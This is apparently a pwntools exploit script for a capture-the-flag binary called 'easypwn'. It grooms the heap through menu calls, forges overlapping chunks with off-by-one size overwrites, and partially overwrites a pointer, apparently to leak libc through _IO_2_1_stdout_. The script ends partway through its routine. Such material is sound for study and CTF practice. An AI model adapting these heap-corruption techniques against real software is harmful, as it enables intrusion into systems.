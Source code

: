 ```python
```



```python
#!/usr/bin/python
from pwn import *
#context.log_level='debug'
#p=process('./easypwn')
#p=remote('',)
e=ELF('./easypwn')
libc = ELF('./libc.so.6')
_IO_2_1_stdout_s = libc.symbols['_IO_2_1_stdout_']

def cho(idx):
    p.sendlineafter('choice:',str(idx))

def add(size):
    cho(1)
    p.recvuntil("size")
    p.sendline(str(size))

def edit(idx,content):
    cho(2)
    p.recvuntil("idx:")
    p.sendline(str(idx))
    p.recvuntil("content:")
    p.send(content)

def delete(idx):
    cho(3)
    p.recvuntil('idx:')
    p.sendline(str(idx))

def pwn():
	add(0xf0) #0
	add(0xf0) #1
	add(0xf8) #2
	add(0xf0) #3

	add(0xe0) #4
	add(0xa0) #5
	add(0x68) #6
	add(0xf0) #7
	add(0x60) #8

	edit(6,'a'*0x60+p64(0x210))
	delete(4)
	delete(7)
	add(0xf0) #4
	add(0x60) #7
	add(0x30) #9
	add(0x60) #10
	add(0xf0) #11
	

	edit(2,'a'*0xf0+p64(0x300))
	delete(0)
	delete(3)

	add(0xf8) #0
	edit(1,p64(0)+'\xe8\x37'+'\n')
#	gdb.attach(p)
	add(0x2f0) #3
```